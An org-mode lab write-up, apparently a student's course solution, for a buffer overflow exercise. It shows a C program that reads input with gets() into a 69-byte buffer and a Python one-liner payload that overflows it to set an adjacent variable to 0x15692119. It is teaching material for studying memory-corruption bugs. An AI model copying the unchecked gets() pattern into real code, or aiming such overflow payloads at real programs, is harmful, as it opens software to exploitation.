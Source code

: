 * Task 1

** Program
#+BEGIN_SRC c
  #include <stdio.h>

  int main(int argc, char **argv)
  {
    int modified;
    char buffer[69];

    printf("Enter whatever you wish:\n");
    modified = 0;
    gets(buffer);

    if(modified == 0x15692119) { // Here, 2119 is the last 4 digits of your ID
        printf("you have correctly got the variable to the right value\n"); // GOAL
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }
  }

#+END_SRC

** Payload
#+BEGIN_SRC bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*69 +
b"\x19\x21\x69\x15")' | ./match_me
#+END_SRC

** Screenshot
[[./screenshots/task-1.png]]

* Task 2

